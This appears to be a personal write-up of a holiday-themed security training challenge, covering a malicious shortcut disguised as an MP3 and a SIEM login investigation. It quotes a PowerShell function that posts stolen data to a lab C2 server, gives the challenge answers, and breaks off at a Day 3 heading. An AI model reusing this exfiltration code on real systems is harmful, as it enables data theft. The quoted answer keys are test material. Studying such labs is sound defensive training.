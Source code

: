 Day 1 - Maybe SOC-mas music, he thought, doesn't come from a store?
Learning Objectives
Learn how to investigate malicious link files.
Learn about OPSEC and OPSEC mistakes.
Understand how to track and attribute digital identities in cyber investigations.

 It’s about a youtube converting website claiming to be safe. After investigating the website, get a youtube link to convert it. Download the zipfile and there’s 2 file after extraction. using the “file” command to check the file’s contents. song.mp3 looks okay but the somg.mp3 looks very suspicious, the output of states that it an “MS Windows shortcut”. So, investigate more with exifTool, and there you can see that this file, somg.mp3, is pulls file from remote server and saves it in the target directory. Next, go to the remote server, ‘https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1‘, to see it’s content, you should be able to see who created it and the command and control server(c2 server)”:

# Function to send the stolen info to a C2 server
function Send-InfoToC2Server {
    $c2Url = "http://papash3ll.thm/data"
    $data = Get-Content -Path $infoFilePath -Raw

    # Using Invoke-WebRequest to send data to the C2 server
    Invoke-WebRequest -Uri $c2Url -Method Post -Body $data
}

To investigate more, google dork it, remote server shows that it’s githubuser, and we a string from the it, 
Created by the one and only M.M. site:github.com
$c2Url = "http://papash3ll.thm/data" site:github.com

https://github.com/MM-WarevilleTHM/M.M
This will show who M.M. = Mayor Malware

There you have it, with all that information, you successfully completed the learning objectives.


Looks like the song.mp3 file is not what we expected! Run "exiftool song.mp3" in your terminal to find out the author of the song. Who is the author? 
Answer: Tyler Ramsbey

The malicious PowerShell script sends stolen info to a C2 server. What is the URL of this C2 server?
Answer: http://papash3ll.thm/data

Who is M.M? Maybe his Github profile page would provide clues?
Answer: Mayor Malware

What is the number of commits on the GitHub repo where the issue was raised?
Answer: 1

===================================================

Day 2 - One man's false positive is another man's potpourri.
Tools:
elastic SIEM
cyberchef
change management system

What is the name of the account causing all the failed login attempts?
Answer: service_admin
How many failed logon attempts were observed?
Answer: 6791
What is the IP address of Glitch?
Answer: 10.0.255.1
When did Glitch successfully logon to ADM-01? Format: MMM D, YYYY HH:MM:SS.SSS
Answer: Dec 1, 2024 08:54:39.000
What is the decoded command executed by Glitch to fix the systems of Wareville?
Answer: Install-WindowsUpdate -AcceptAll -AutoReboot

===================================================

Day 3 - Even if I wanted to go, their vulnerabilities wouldn't allow it.

























